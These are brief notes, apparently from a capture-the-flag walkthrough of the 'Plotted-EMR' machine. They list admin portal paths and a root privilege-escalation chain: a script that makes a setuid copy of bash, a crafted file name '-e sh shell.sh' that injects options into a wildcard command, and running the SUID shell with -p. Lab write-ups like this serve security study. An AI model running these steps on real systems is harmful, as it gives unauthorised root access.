


# Plotted-EMR
30 March 2022
09:10 PM

/portal/admin.php
/portal/setup.php

cd /var/www/html/portal/config

echo “cp /bin/bash /home/plot_admin/ shell; chmod +s
/home/plot_admin/shell” \> shell.sh

touch — “-e sh shell.sh”

cd /home/plot_admin/

./shell -p

